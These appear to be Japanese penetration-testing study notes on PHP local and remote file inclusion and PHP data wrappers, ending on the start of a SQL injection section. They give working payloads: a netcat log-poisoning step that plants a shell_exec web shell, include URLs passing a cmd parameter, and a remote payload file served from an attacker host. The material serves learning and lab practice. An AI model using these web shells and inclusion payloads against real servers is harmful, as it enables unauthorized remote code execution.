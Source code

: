 ### ファイルインクルージョン(include系関数でファイルが読み込まれていない場合)
単にファイルの内容を表示するディレクトリトラバーサルとは異なり、ファイルインクルージョンの脆弱性では、攻撃者がアプリケーションの実行コードにファイルをインクルードすることができる。  
LFI(ロカールファイルインクルージョン)はインクルードされたファイルが同じWebサーバからロードされる場合に発生する。  
RFI(リモートファイルインクルージョン)は、ファイルが外部から読み込まれた場合に発生する。  
通常、これらの脆弱性はPHPアプリケーションでよく見られ、これらの脆弱性の悪用はアプリケーション側で書かれているプログラミング言語とサーバーの設定に依存する。特にPHPの場合、言語ランタイムのバージョンとWebサーバの設定、register_globalsやallow_urlラッパーなどのphp.iniの値よってこれらの脆弱性がどのように悪用されるか変化する。

#### LFI
ローカルファイルにPHPコードを書き込むことができれば、この脆弱性を使用してリモートコード実行までいける可能性が出てくる。この一つの方法としてログファイルポイズニングがある。ほとんどのアプリケーションサーバはリクエストされた全てのURLを記録する。これを利用してログファイルに任意のコードが実行できるようなコードを埋め込んでみる。
```
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
```
Bad Requestが発生するものの、ログファイル上に書き込まれることが確認できる。
そして下記のコードを実行することで、任意のコードが実行可能である。(今回の場合ipconfigコマンド)
```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
このようにログファイルポイズニングを行うことで、リモートでコードを実行できる可能性がある。


#### RFI
リモートファイルインクルード(RFI)の脆弱性はサーバーが非常に特殊な方法で構成されていなければならないため、LFIに比べると一般的ではないが、悪用するのは非常に簡単。  
これを利用するためにはPHPアプリではallow_url_includeが「オン」に設定されている必要があり、古いバージョンのPHPではデフォルトでこの設定がオンになっているが、新しいバージョンではデフォルトでオフになっている。  
```
http://10.10.10.1/menu.php?file=http://10.10.10.2/test.txt
```
LFIと同じ内容でエクスプロイトを行うには下記のようにすればよい。
```
kali@kali:/var/www/html$ cat test.txt 
<?php echo shell_exec($_GET['cmd']); ?>
kali@kali:/var/www/html$ sudo systemctl restart apache2
```
```
http://10.10.10.1/menu.php?file=http://10.10.10.2/test.txt&cmd=ipconfig
```

また、kaliには/usr/share/webshellsにwebshellがあるので、それを参照させることで、さらに簡単に任意のコマンドを実行させることが可能である。

#### PHPラッパー
phpのデータラッパーを利用することで、LFI攻撃に対して脆弱性を持つ場合、リモートでコードを実行することが可能である。
```
http://10.10.10.1/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

### SQLインジェクション
SQLインジェクションはサニタイズされていないユーザーの入力が挿入され、データベースに渡されて実行されることによって引き起こされる。  
MySQLやMariaDBなどを対象とする。
```
+----+------------+--------------+
| id |  username  |   password   |
```  
```
SELECT * From users;
```
上記のコマンドはuserテーブルの全てのカラム(列)とレコード(行)を表示する。という意味になる。